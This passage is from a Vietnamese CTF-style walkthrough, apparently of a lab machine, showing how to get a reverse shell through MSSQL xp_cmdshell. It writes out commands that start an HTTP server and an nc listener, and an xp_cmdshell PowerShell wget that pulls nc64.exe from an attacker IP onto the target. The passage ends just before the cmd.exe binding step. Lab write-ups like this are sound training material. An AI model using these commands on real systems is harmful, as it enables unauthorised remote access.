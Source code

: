 Cuối cùng đã có thể thực thi lệnh!

Bây giờ sẽ cố gắng để có được một reverse shell ổn định. Tải file binary `nc64.exe` lên máy đích và thực thi process `cmd.exe` tương tác trên cổng lắng nghe.

Có thể tải file binary từ https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------.

Điều hướng đến thư mục và sau đó khởi động máy chủ HTTP đơn giản, sau đó là trình lắng nghe netcat trong một tab khác bằng cách sử dụng các lệnh sau:

```
sudo python3 -m http.server 80
```

```
sudo nc -lvnp 443
```

Để tải tệp nhị phân lên hệ thống đích, cần tìm thư mục phù hợp cho tệp đó. Sử dụng PowerShell cho các tác vụ sau vì nó cung cấp nhiều tính năng hơn so với command prompt thông thường. Để sử dụng nó, sẽ phải chỉ định nó mỗi lần muốn thực thi cho đến khi nhận được reverse shell. Để thực hiện điều đó, sử dụng cú pháp sau: `powershell -c command`

Cờ `-c` hướng dẫn powershell thực thi lệnh.

Print thư mục làm việc hiện tại bằng cách phát hành lệnh sau:

Đã tìm thấy thư mục nơi sẽ đặt tệp nhị phân. Để thực hiện điều đó, sử dụng alias `wget` trong Powershell (`wget` thực chất chỉ là alias cho `Invoke-WebRequest`):

```
xp_cmdshell "powershell -c pwd"
```

Với tư cách là người dùng `archetype\sql_svc`, không có đủ quyền để tải tệp lên thư mục hệ thống và chỉ người dùng `Administrator` mới có thể thực hiện các hành động có quyền cao hơn. Cần thay đổi thư mục làm việc hiện tại ở đâu đó trong thư mục home của người dùng, nơi có thể ghi. Sau khi liệt kê nhanh, thấy rằng Downloads hoạt động hoàn hảo để đặt tệp nhị phân. Để thực hiện điều đó, sử dụng công cụ `wget` trong PowerShell:

```
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget 
http://10.10.14.9/nc64.exe -outfile nc64.exe"
```

Có thể xác minh trên máy chủ Python HTTP đơn giản rằng máy đích thực sự đã thực hiện yêu cầu:

![alt text](image-12.png)

Bây giờ, có thể liên kết `cmd.exe` thông qua `nc` với trình lắng nghe:
